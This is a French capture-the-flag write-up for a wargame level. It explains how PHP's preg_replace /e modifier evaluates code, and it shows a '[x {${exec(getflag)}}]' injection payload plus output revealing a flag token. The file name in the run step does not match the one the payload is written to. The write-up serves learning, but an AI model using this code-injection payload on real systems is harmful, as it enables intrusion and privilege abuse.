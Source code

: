 ```shell
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m; }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a; }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
La fonction preg_replace() en PHP est utilisée pour effectuer une recherche et un remplacement de chaînes de caractères basées sur des expressions régulières (REGEX).

l'option /e est utilisée dans les expressions régulières pour évaluer dynamiquement le remplacement en tant que code PHP.

 L'expression régulière "/(\[x (.*)\])/e" dans la fonction preg_replace() en PHP correspond à une chaîne de caractères qui contient [x suivi d'un ou plusieurs espaces et de n'importe quel caractère (.*) jusqu'à ce qu'un ] soit trouvé. Les parenthèses sont utilisées pour capturer la sous-chaîne correspondant à (.*).

 Ainsi, en utilisant preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a), la fonction va rechercher toutes les occurrences de la chaîne de caractères [x suivie d'un ou plusieurs espaces, suivie de n'importe quelle sous-chaîne jusqu'à ce qu'un ] soit trouvé. La fonction va ensuite remplacer toute la sous-chaîne correspondante par le résultat de l'exécution de la fonction y() avec le deuxième groupe de capture (\\2) comme argument.

Par exemple, si $a est égal à la chaîne de caractères [x test], la fonction preg_replace() va capturer la sous-chaîne test et l'exécuter comme argument de la fonction y(). Le résultat final sera le résultat de l'exécution de la fonction y("test").

On va donc *injecter* un code pour executer getflag ( les fichiers on -user=flag06)

```shell
echo '[x {${exec(getflag)}}]' > /tmp/get_token
```

```shell
./level06 /tmp/essais 42
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```